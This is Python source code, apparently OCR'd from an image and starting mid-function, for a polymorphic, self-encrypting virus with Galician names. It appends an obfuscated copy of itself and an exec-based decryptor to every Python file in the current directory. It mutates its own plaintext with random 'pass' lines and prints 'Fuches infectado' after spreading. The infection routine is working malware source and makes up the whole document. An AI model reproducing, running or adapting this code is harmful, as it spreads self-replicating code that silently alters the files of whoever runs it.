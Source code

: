 ```python
    linhas = codigo.split(chr(10))
    for i in range(10):
        if random.random() > 0.75:
            posicion_insecion = random.randint(1, len(linhas) - 1)
            linhas.insert(posicion_insecion, " " * calcula_tabulacion(linhas, posicion_insecion) + "pass")
    return chr(10).join(linhas)


def modifica(codigo):
    novo_codigo = []
    separador = chr(10) + chr(10) + chr(10)
    funcions = codigo.split(separador)
    for texto in funcions:
        if texto:
            codigo_sen_pass = borra_pass(texto)
            codigo_con_pass = engade_pass(codigo_sen_pass)
            novo_codigo.append(codigo_con_pass)
        else:
            novo_codigo.append(texto)
    return separador.join(novo_codigo)


def infectar(virus):
    import os
    for arquivo in os.listdir("."):
        if arquivo.endswith(".py"):
            script = open(arquivo, "r+")
            texto_script = script.read()
            if "def calcula_clave" not in texto_script:
                parte_en_claro = virus[:virus.find("def cifra")]
                parte_a_cifrar = virus[virus.find("def cifra"):]
                parte_en_claro_modificada = modifica(parte_en_claro)
                clave = calcula_clave(texto_script)
                parte_crifrada = cifra(parte_a_cifrar, clave)
                script.write(parte_en_claro_modificada)
                descrifrador = "import sys" + chr(10) + "portador = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "texto_portador = portador.read()" + chr(10) + "portador.close()" + chr(10) + "parte_sin_cifrar = texto_portador[texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + "):texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + ")+" + str(len(parte_en_claro_modificada)) + "]" + chr(10) + "clave = calcula_clave(texto_portador)" + chr(10) + "texto_descifrado = descifra(" + chr(34) + chr(34) + chr(34) + parte_crifrada + chr(34) + chr(34) + chr(34) + ", clave)" + chr(10) + "exec(texto_descifrado)" + chr(10) + "executa(parte_sin_cifrar + texto_descifrado)"
                script.write(descrifrador)
            script.close()


def payload():
    print("Fuches infectado")


def executa(virus):
    infectar(virus)
    payload()


import sys
portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
virus = texto_portador[:3621]
executa(virus)
```